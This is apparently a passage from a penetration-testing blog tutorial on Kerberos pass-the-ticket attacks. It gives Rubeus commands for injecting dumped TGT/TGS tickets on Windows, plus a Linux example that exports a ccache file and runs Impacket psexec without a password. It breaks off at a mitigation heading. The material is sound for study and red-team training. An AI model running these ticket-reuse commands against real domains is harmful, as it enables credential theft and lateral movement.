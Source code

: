 

Types of Remote-Interactive Logon Sessions

```
Remote Desktop (RDP)
```



**Injection / PTT**



Now presuming we were in a high-integrity process when we run `Rubeus.exe dump` we will have dumped all `TGTs` and all `TGS` for any users with a session to the target box. Now we can `pass-the-ticket`



PTT Syntax with Base64

```powershell
PS C:\Users\m0chan> .\Rubeus.exe /ticket:base64blob
```

PTT Syntax with Ticket

```
PS C:\Users\m0chan> .\Rubeus.exe /ticket:m0chan.kirbi
```



Now if we `PTT` of a `TGT` into our current session we will therefore be able to access any services that this respective user has access too as we can request `TGS` however if we only passed a `TGS` we will be limited to the respective service.



### [](#header-3)From Linux



Passing-The-Ticket in Linux is a little but different in the sense that you have to pull the tickets in `.ccache` form and then typically use them alongside a **Impacket** script such as PSExec. 

Truthfully I haven't played with PTT on Linux besides a Simple PSExec but I'm sure there is way more to play with. 

An example would be.

```python
m0chan@kali:/scripts/> export KRB5CCNAME=/root/impacket-examples/krb5cc_08009234234_ZFxIpl 

m0chan@kali:/scripts/> python psexec.py m0chanAD.local/user@workstation.m0chanAD.local -k -no-pass
```



 



### [](#header-3)Mitigation / Defending against PTT

